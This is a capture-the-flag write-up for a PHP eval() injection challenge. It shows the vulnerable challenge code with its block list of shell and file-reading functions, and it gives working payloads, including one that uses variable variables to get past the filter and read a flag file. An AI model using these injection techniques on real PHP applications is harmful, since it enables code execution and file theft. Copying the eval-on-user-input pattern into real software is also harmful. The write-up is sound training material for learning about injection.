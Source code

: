 # Impasse

This is a PHP `eval()` injection challenge. 

When submitting the form, the input is wrapped around an `echo` statement and added to the `print` GET parameter:

```http
?print=echo+'<YOUR DATA>'+;
```

The first thing we tried was to modify the GET parameter to test for arbitrary code execution:

```text
print=echo+'';phpinfo()
```

![](../../.gitbook/assets/image%20%2813%29.png)

By checking the `debug` option, we are presented with the page's source code. The following code implements the input blacklist and the `eval()` vulnerability:

```php
<?php
error_reporting(0);
if (isset($_GET['print'])) {
  if (!empty($_GET['print'])){
    $printValue= strtolower($_GET['print']);
    $blocked = array("cat", "more" ,"readfile", "fopen", "file_get_contents", "file", "SplFileObject" );
    $special_block= "nc";
    $$special_block= "../flag.txt";
    foreach ($blocked as $value) {
      if (strpos($printValue, $value) || preg_match('/\bsystem|\bexec|\bbin2hex|\bassert|\bpassthru|\bshell_exec|\bescapeshellcmd| \bescapeshellarg|\bpcntl_exec|\busort|\bpopen|\bflag\.txt|\bspecial_block|\brequire|\bscandir|\binclude|\bhex2bin|\$[a-zA-Z]|[#!%^&*_+=\-,\.:`|<>?~\\\\]/i', $printValue)) {
        $printValue="";
        echo "<script>alert('Bad character/word ditected!');</script>";
        break;
      }
    }
  eval($printValue . ";");
  } 
}
?>
```

Many useful functions have been blocked! But note that the `eval()` statement is called _after_ the `$blocked`, `$special_block` and `$$special_block` variables are defined. This allows us to reference these variables in our `eval`-ed code.

Note that `$$` has a special meaning in PHP: [https://stackoverflow.com/questions/4169882/what-is-in-php](https://stackoverflow.com/questions/4169882/what-is-in-php)

```php
$foo = 'hello';
$hello = 'The Output';
echo $$foo; // displays "The Output"
```

What happens here is that the value of  `$foo` is used as a variable name, and so `$$foo` becomes `$hello` \(think of it as replacing `$foo` in `$$foo`\).

```php
$special_block= "nc";
$$special_block= "../flag.txt";
```

Here, the value of `$special_block` is used as a variable name. The second line defines a new variable, `$nc`, which has the value of `"../flag.txt"`.

Our final payload is

```text
?print=echo+'';print(eval('return ${blocked}[4](${nc});'))
```

which leads to the following code being `eval`-ed:

```php
print(eval('return file_get_contents("../flag.txt");')
```

Note that `$[a-zA-Z]` is blocked in the regex, so we must use `${...}` instead \(which achieves the same purpose\). Also, `eval()` executes `file_get_contents("../flag.txt")` but doesn't display anything to us yet. By returning and printing the output, we retrieve the flag.

